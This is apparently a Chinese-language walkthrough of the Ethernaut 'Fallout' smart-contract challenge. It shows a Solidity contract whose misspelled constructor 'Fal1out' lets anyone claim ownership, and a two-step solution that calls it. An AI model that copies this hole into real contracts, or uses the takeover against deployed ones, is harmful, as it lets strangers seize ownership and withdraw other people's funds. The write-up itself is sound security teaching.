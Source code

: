### Fallout
### 题目
获得以下合约的所有权来完成这一关.
### 提示
- Solidity Remix IDE
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    //启用SafeMath库中的函数用于uint256类型
    using SafeMath for uint256;
    
    //定义了一个映射，记录每个地址的分配金额
    mapping(address => uint256) allocations;
    //定义了一个公开的可支付地址变量owner，用于存储合约所有者的地址。
    address payable public owner;

    /* constructor */
    //Fal1out()函数，任何人都可以调用，public
    function Fal1out() public payable {
        //调用者成为合约拥有者
        owner = msg.sender;
       //记录发送到合约的金额
        allocations[owner] = msg.value;
    }

    //修饰符确保只有合约所有者可以调用标记了onlyOwner的函数
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    //允许用户向合约发送以太币，并记录他们的分配金额
    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    //允许用户将他们的分配金额发送到指定的地址
    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    //允许合约所有者提取合约中的所有余额
    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    //允许查询指定地址的分配余额。
    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```
### 解题思路
很明显，在定义构造函数时，将合约名 Fallout 误写为 Fal1out ，这导致这个函数成为了一个普通的 public 函数。任何人都可以在合约创建后调用这个函数，成为合约主人。

### 解题过程
``1.contract.Fal1out()``  //调用构造函数Fal1out来获取合约的ower权限
``2.contract.owner()``  // 查看合约拥有者
